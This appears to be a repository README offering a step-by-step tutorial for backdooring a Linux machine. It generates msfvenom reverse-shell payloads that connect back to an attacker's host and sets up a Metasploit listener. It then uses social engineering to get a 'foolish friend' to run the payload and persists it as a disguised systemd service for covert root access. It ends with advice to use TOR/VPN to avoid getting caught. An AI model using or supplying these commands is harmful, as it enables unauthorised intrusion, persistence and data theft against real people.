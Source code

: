 # Backdoor to any Linux machine

**Myth:** It is said that Linux is secure and does not have any viruses etc. Let's take a look. There is a general claim that no need for Antivirus software is required either. Well...

This is just a short tecnical demonstration without any true hostile attempts. Utilizing the method requires social engineering tactics as well.

This method does not require any server software running on the victim's Linux machine. Just a simple client machine is OK, as well.

# This tutorial assumes you will gain access to `sudo` or `root` terminal on victim's Linux machine by using social engineering tactics.

**1)** Generate a simple Linux backdoor payload. On attacker machine, execute either:

A) Linux x86 binary backdoor payload:

```
msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=<my_global_ip> lport=<my_global_port> -f elf -a x86 > ~/reverse_backdoor'
```

B) or alternatively generate a shell script backdoor payload:

```
msfvenom -p cmd/unix/reverse_bash LHOST=<my_global_ip> LPORT=<my_global_port> -f raw > reverse_backdoor_bash.sh
```

**2)** If you are behind a router, do PAT (Port Address Translation) where incoming connections to your router are coming from `<my_global_port>`. Let the router forward those to `<my_local_port>` in your local network.

**3)** On your attack machine, add following file (edit contents as needed) and save it as 'backdoor-listener.rc'

use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set lhost <my_local_ip>
set lport <my_local_port>
exploit

This is a metasploit script file we will utilize later. Please pay attention to `<my_local_ip>` and `<my_local_port>` values above.

---------------------------

<my_global_ip>   = IPv4 which is reachable from outside (WAN IPv4), usually provided by your ISP
<my_global_port> = Port number which is accessible from outside (WAN) networks
<my_local_ip>    = IPv4 used by your attack machine on the local network, usually static one or provided by a router
<my_local_port>  = Port number which is accessible on your local network

---------------------------

**4)** Run the above Metasploit script file with 'sudo msfconsole -r backdoor-listener.rc' and keep the listener open on your Linux attack machine.

**5)** Send msfvenom-generated 'reverse_backdoor' binary executable to the Linux victim. Requires social engineering tactics.

**6)** Tell your foolish friend to execute `reverse_backdoor` binary on his/her Linux client.

**7)** Once you have connection to the victim's Linux machine, run 'whoami', after which run 'shell'. Both in meterpreter console view

**8)** We assume that the victim has python environment. On the opened empty shell view, just run the following commands (we assume the current user's shell is `/bin/bash`):

```
which python
python -c "import pty; pty.spawn('/bin/bash');"
```

On that code above, we check python binary existence on the Linux victim machine. If OK, then you can open bash with pseudo terminal python function.

**9)** On victim's machine, copy 'reverse_backdoor' binary into `/usr/local/bin/` folder, and run

```
chmod +x /usr/local/bin/reverse_backdoor
```

**10)** Now, insert a new systemd service file 'reverse-backdoor.service' into `/usr/lib/systemd/system/` as follows:

echo -e "[Unit]\nDescription=SSH backdoor\nAfter=network.target network-online.target\n\n[Service]\nType=oneshot\nRemainAfterExit=yes\n\nExecStart=/usr/local/bin/reverse_backdoor\nExecStop=/usr/local/bin/reverse_backdoor\n\n[Install]\nWantedBy=multi-user.target" > /usr/lib/systemd/system/reverse-backdoor.service

**11)** Run

```
sudo systemctl enable reverse-backdoor.service
```

**12)** To check if the service file succeeds, check the output of:

```
sudo systemctl start reverse-backdoor.service
```

**13)** If Ok, you should be able to login to the victim's Linux machine after rebooting it. Just make sure you have Metasploit TCP Handler/Backdoor listener on stand-by on your Linux attack machine.

-----------------------------------------

**/usr/lib/systemd/system/reverse-backdoor.service**

```
[Unit]
Description=SSH backdoor
After=network.target

[Service]
Type=oneshot
RemainAfterExit=yes

ExecStart=/home/pinqvin/reverse_backdoor_for_ssh.elf
ExecStop=/home/pinqvin/reverse_backdoor_for_ssh.elf

[Install]
WantedBy=multi-user.target
```

-----------------------------------------

Of course, you can adapt this systemd service file as `init` script as well. However, majority of Linux distributions come with systemd nowadays, except for Gentoo etc.

The instructions has been tested and work as expected. You gain root access on the victim's Linux machine, no matter which network the victim has connected to. According to my tester, the opened bash shell process is not visible on graphical system monitor view (this applies to XFCE, at least).

Victim can detect the hostile process and opened network sockets with netstat/sockstat commands. However, distinguishing them is another thing...

-----------------------------------------

Simple attack schema:

```
<victim's Linux machine>  <--->  <ISP, etc.>  <--->  <your router>  <--->  <your attack Linux machine>

 <payload executable>                                                        <backdoor listener>
                  |->>       <my_global_ip>  <------------->  <my_local_ip>   <<-|
                  |->>     <my_global_port>  <------------->  <my_local_port> <<-|

    <execute file>      <--------------------------------------------->   <access victim's machine>
                            <<- valuable data, malicious commands ->>
```

In hardened scenarios, using TOR/VPN is recommended to avoid getting caught if illegal activies are performed.

-----------------------------------------